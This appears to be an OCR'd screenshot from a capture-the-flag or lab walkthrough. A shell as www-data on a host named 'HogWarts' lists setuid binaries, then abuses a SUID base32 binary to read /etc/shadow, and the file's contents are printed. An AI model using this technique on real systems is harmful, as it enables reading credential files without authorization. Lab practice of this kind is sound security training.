 ```
/snap/core18/1885/usr/lib/openssh/ssh-keysign
/snap/core18/1932/bin/mount
/snap/core18/1932/bin/ping
/snap/core18/1932/bin/su
/snap/core18/1932/bin/umount
/snap/core18/1932/usr/bin/chfn
/snap/core18/1932/usr/bin/chsh
/snap/core18/1932/usr/bin/gpasswd
/snap/core18/1932/usr/bin/newgrp
/snap/core18/1932/usr/bin/passwd
/snap/core18/1932/usr/bin/sudo
/snap/core18/1932/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1932/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/p11_child
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/sbin/pppd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/base32
/usr/bin/gpasswd
/usr/bin/find
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
www-data@HogWarts:/home$ LFILE=file_to_read

www-data@HogWarts:/home$ base32 "/etc/shadow" | base32 --decode   
base32 "/etc/shadow" | base32 --decode
root:!:18573:0:99999:7:::
daemon:*:18557:0:99999:7:::
bin:*:18557:0:99999:7:::
sys:*:18557:0:99999:7:::
sync:*:18557:0:99999:7:::
games:*:18557:0:99999:7:::
man:*:18557:0:99999:7:::
lp:*:18557:0:99999:7:::
mail:*:18557:0:99999:7:::
news:*:18557:0:99999:7:::
uucp:*:18557:0:99999:7:::
proxy:*:18557:0:99999:7:::
www-data:*:18557:0:99999:7:::
backup:*:18557:0:99999:7:::
list:*:18557:0:99999:7:::
irc:*:18557:0:99999:7:::
gnats:*:18557:0:99999:7:::
nobody:*:18557:0:99999:7:::
systemd-timesync:*:18557:0:99999:7:::
systemd-network:*:18557:0:99999:7:::
systemd-resolve:*:18557:0:99999:7:::
```